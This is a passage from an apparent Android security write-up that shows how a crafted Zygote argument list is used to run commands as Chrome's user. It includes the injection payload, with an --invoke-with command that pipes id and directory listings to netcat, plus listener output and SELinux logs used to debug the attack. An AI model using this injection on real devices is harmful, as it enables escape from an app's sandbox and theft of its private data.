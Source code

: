 ```
8
--setuid=10128
--setgid=10128
--runtime-args
--seinfo=platform:privapp:targetSdkVersion=30:complete
--runtime-flags=1
--nice-name=zYg0te
--invoke-with
echo "$(id; cd /data/data/com.android.chrome ; pwd; ls -al)" | nc 127.0.0.1 31337 ; #
,,,,X
```
&nbsp;
If we carry out the exploitation process correctly, the command output will look like this:

```bash
$ adb shell nc -l -p 31337 
uid=10128(u0_a128) gid=10128(u0_a128) groups=10128(u0_a128),1065(reserved_disk),3009(readproc) context=u:r:platform_app:s0:c512,c768
/
$
```
&nbsp;
The output of `id` is shown, but `pwd` shows the root directory (`/`) and there is no output for `ls -al`. Hmm...

If we filter `logcat` with the application name, we see this:

```bash
generic_x86_arm:/ $ logcat | grep com.android.chrome
.... mucha información
.... mucha información
.... mucha información
.... mucha información...
04-17 17:07:52.452 13649 13649 W sh      : type=1400 audit(0.0:2616): avc: denied { search } for name="com.android.chrome" dev="dm-5" ino=123242 scontext=u:r:platform_app:s0:c512,c768 tcontext=u:object_r:app_data_file:s0:c128,c256,c512,c768 tclass=dir permissive=0 app=com.android.chrome
04-17 17:07:52.452 13649 13649 W sh      : type=1400 audit(0.0:2617): avc: denied { read } for name="/" dev="dm-4" ino=2 scontext=u:r:platform_app:s0:c512,c768 tcontext=u:object_r:rootfs:s0 tclass=dir permissive=0 app=com.android.chrome
^C
130|generic_x86_arm:/ $ 
```
&nbsp;
What we see here are a couple of _denials_ from SELinux for what appear to be two _actions_: `search` and `read`.

If the problem is with SELinux, let's remember that inside our _payload_ there is an argument that deals with that. When we were able to see the Zygote commands with `strace`, we captured one from Chrome. If we check that command we can see that this argument has a different value than the one we have in our _payload_:
**`--seinfo=default:targetSdkVersion=30:complete`**

Notice that the original value (**`--seinfo=platform:privapp:targetSdkVersion=30:complete`**) specifies the contexts "platform" and "privapp", which are correct for _Settings_ because it is a _platform application_ and a _privileged application_, but Chrome is not. For Android, Chrome is a much less privileged application than _Settings_ and its context is "default".
